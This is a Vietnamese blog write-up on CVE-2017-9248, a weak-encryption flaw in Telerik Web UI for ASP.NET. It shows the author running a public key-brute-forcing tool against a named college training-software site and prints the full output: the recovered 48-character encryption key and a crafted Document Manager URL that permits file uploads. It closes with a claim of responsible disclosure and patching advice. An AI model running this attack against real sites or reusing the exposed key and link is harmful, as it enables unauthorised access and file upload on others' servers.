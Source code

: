 ```yaml
---
title: CVE-2017-9248
date: 26/12/2022
layout: single
header:
  teaser: /assets/images/cve.PNG
--- 
```


## Khai thác lỗ hổng ứng dụng Web qua Telerik Web Ui trên Framework Asp.Net

[![Language](https://img.shields.io/badge/Lang-Python-blue.svg)](https://www.python.org)


# Giới Thiệu
Khai Thác Lỗ Hổng phần mềm đào tạo của Trường Cao Đẳng 

# Mô Tả 
Chào mọi người, mình xin chia sẻ bài viết phân tích về lỗ hổng trên Telerik Web UI 
Đây là lỗ hổng bảo mật cực kỳ nghiêm trọng, tồn tại do mã hóa yếu trong tệp tin Telerik.Web.UI.dll (Telerik UI for ASP.NET AJAX components). Khai thác lỗ hổng này hacker có thể giải mã ra key (Telerik.Web.UI.DialogParametersEncryptionKey and/or the MachineKey), từ đó có được đường link quản trị nội dung tệp tin và có thể tải tệp tin lên máy chủ nếu cấu hình cho phép (mặc định là cho phép). Lỗ hổng này tồn tại ở các phiên bản từ 2012.3.1308 đến 2017.1.118 (.NET 35, 40, 45).



## Bắt đầu exploit
Để brute telerik bạn có thể sử dụng mã nguồn mở này [công cụ](https://github.com/bao7uo/dp_crypto) này
## Chạy công cụ 
```powershell
python 4.py k -u http://namsaigon.phanmemdaotao.com/telerik.web.ui.dialoghandler.aspx


CVE-2017-9248 - Telerik.Web.UI.dll Cryptographic compromise

Attacking http://namsaigon.phanmemdaotao.com/telerik.web.ui.dialoghandler.aspx
to find key of length [48] with accuracy threshold [9]
using key charset [01234567890ABCDEF]

Key position 01: {6} found with 49 requests, total so far: 49
Key position 02: {8} found with 31 requests, total so far: 80
Key position 03: {3} found with 23 requests, total so far: 103
Key position 04: {F} found with 57 requests, total so far: 1608
Key position 41: {7} found with 50 requests, total so far: 1458
Key position 42: {1} found with 10 requests, total so far: 1468
Key position 43: {6} found with 49 requests, total so far: 1517
Key position 44: {6} found with 45 requests, total so far: 1562
Key position 45: {9} found with 31 requests, total so far: 1593
Key position 46: {F} found with 61 requests, total so far: 1654
Key position 47: {4} found with 36 requests, total so far: 1690
Key position 48: {8} found with 31 requests, total so far: 1721
Found 48 of 48 key characters: (ASCII hex) 363833463739343946363532363045443631323746324335313531324346343743443535383231323731363639463438
Total web requests: 1721
http://namsaigon.phanmemdaotao.com/telerik.web.ui.dialoghandler.aspx?DialogName=DocumentManager&renderMode=2&Skin=Default&Title=Document%20Manager&dpptn=&isRtl=false&dp=ZG8GLm5UTFUXbnsHVF0LElV2SkEfZRJGY1h3QSB0YUQOPU1gW1xnXngBZFpbAWIIbG5K29afAQcAxV8Z1hdWxF0TEYWPn9idmRrenhpfFdvPGUNYm5hDFJ/RE0UW019U10hcGJcQmAnZC9gZVhFfRISBA4MdHNGWnUIAWNpYEVdAVhPVH9lEm1uTFUfBWdCVAJxN2RcdEQlABZGfExJdRoRTE0ZFQgI
```

![](https://www10.0zz0.com/2022/06/10/14/557837570.png)
## Và chúng ta có thể up tất cả mọi thứ lên trên này :D

## Cái Kết 
Tôi đã báo cáo lỗi này đến công ty phát triển phần mềm của trường :))

![](https://www13.0zz0.com/2022/06/10/14/164886149.png)

Sau hơn 1 năm báo cáo cuối cùng lỗi này đã được khắc phục :))

![](https://www13.0zz0.com/2022/06/10/15/894737972.png)

## Cách khắc phục
Cài đặt bản vá lỗ hổng bảo mật tại [đây](https://www.telerik.com/)
Tiến hành upgrade bản vá theo hướng 
Tạo các khóa duy nhất cho Telerick.Web.UI.DialogParameterEncodingKey và MachineKey trong web.config hoặc dùng trình tạo khóa của IIS machine Key
Thực hiện Redirect url trả lại trang thông báo lỗi khi hacker truy cập Telerik



## Nhớ đừng làm gì xấu với công cụ này nhé :D

